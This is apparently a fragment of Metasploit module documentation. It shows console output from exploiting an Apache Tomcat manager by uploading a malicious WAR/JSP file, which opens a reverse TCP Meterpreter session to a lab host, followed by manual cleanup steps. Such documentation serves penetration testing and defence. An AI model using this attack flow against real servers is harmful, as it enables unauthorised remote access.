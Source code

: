     [*] Started reverse TCP handler on 192.168.2.117:4444
    [*] Using manually select target "Linux x86"
    [*] Uploading 1560 bytes as 9s0fTUyPa2HJCDnod2wEQJ.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /9s0fTUyPa2HJCDnod2wEQJ/ndAfDrUY.jsp...
    [*] Undeploying 9s0fTUyPa2HJCDnod2wEQJ ...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (335800 bytes) to 192.168.2.118
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.118:33802) at 2017-01-14 11:06:13 -0500

    meterpreter > sysinfo
    Computer     : 192.168.2.118
    OS           : Ubuntu 16.04 (Linux 4.4.0-59-generic)
    Architecture : x64
    Meterpreter  : x86/linux
    ```

## Manual Cleanup

Manual cleanup can be done by logging into the `/manager` website.  From there, click `Undeploy` within the `Application` list to remove the malicious app from Tomcat.
